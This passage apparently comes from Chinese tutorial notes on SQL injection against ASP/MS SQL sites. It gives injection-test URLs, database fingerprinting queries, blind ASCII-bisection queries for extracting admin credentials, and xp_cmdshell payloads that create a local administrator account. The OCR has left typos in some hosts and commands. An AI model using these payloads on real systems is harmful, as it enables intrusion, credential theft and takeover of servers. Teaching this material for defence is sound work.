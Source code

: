     # 将原先的“ yyy ”取值修改为“ yyy' and '1'='2 ”，由于“'1'='2'”为永假式，返回错误页面
    http://SIZE/xxx.asp?some_rec=yyy' and '1'='2   //请求URL
    SELECT * FROM some_table WHERE some_rec='yyy' and '1'='2'  //SQL操作语句
    ```

    若以上都满足，则存在注入点。

    

  **（2）判断后台数据库类型**

  - 利用数据库服务器的系统变量进行判断

    不同数据库服务器拥有不同的系统变量，如MS SQL Server 有user和db_ name()等系统变量，而MySQL有basedir等系统变量，执行`http://SITE/xxx.asp?some_rec=yyy and db_name()>0`不仅可以判断是否是MS SQL Server,而且还可以得到当前正在使用的数据库名。

  - 利用数据库服务器的系统表进行判断

    ACCESS的系统表是msysobjects，且在Web环境下没有访问权限，而MS SQL Server的系统表是sysobjects,在Web环境下有访问权限。执行：
    ①`http://SITE/xxx.asp?some_rec = yyy and (select count(*) from sysobjects)>0`
    ②`http://SITE/xxx.asp?some_rec = yyy and (select count(*) from msysobjects)>0`
    若数据库是MS SQL Server，则第一条请求 URL运行正常，第二条则异常；若是ACCESS，则两条都会异常。

  **（3）后台数据库中管理员用户口令字猜解**

  - 猜解表名

  - 猜解字段名

  - 用户名与口令猜解

    ```
    //猜解用户名长度
    http://SITE/xxx.asp?some_rec = yyy and (select top 1 len(username) from Admin)>[guessed_ length]
    //逐位猜解字符串ASCII值（二分法）
    (select top 1 asc (mid (username,N,1)) from Admin)> [guessed_ascii]
    ```

  **（4）上传ASP后门，得到默认账户权限**

  **（5）本地权限提升**

  **（6）利用数据库扩展存储过程执行Shell命令**

  - 如果当前的数据库连接支持扩展存储过程，且拥有数据库管理系统的最高权限，那么我们就可以利用该存储过程直接调用操作系统的Shell命令进行任意的操作，而无须之前步骤(3)至步骤(5)的攻击过程了，如：

    ```
    //在系统中添加一个用户，并将其加入到本地管理员组中
    http://SITE/xxx.asp?some_rec=yyy; exec master.xp_ cmdshell “net user name password/add"
    http://SIiTE/xxx.asp?some_rec=yyy; exec master.xp. cmdshell “net localgroup name administrators /add"
    ```

    

  

- **SQL注入攻击工具**
